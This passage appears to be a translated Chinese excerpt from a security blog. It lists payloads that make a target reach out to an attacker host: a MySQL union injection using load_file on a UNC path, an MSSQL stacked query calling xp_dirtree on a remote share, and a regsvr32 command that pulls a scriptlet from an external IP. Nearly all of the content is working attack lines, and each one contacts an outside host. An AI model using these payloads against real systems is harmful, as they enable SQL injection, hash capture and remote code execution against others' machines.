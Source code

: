 # MySQL 注入

我已经写了一篇关于 MySQL 带外注入的完整的[帖子](https://osandamalith.com/2017/02/03/mysql-out-of-band-hacking/)，它可以通过互联网应用。您也可以使用“INTO OUTFILE”来解析网络路径。

```
[http://host.tld/index.php?id=1'](http://host.tld/index.php?id=1') union select 1,2,load_file('\\\\192.168.0.100\\@OsandaMalith'),4;%00
```

![](img/3cde31ad9e8933b3dedebe17e8d72dc8.png)

# MSSQL

由于支持堆栈查询，我们可以调用存储过程。

```
';declare @q varchar(99);set @q='\\192.168.254.52\test'; exec master.dbo.xp_dirtree @q
```

# Regsvr32

在做实验的时候偶然发现了这个。sct 文件。

```
regsvr32 /s /u /i://35.164.153.224/@OsandaMalith scrobj.dll
```
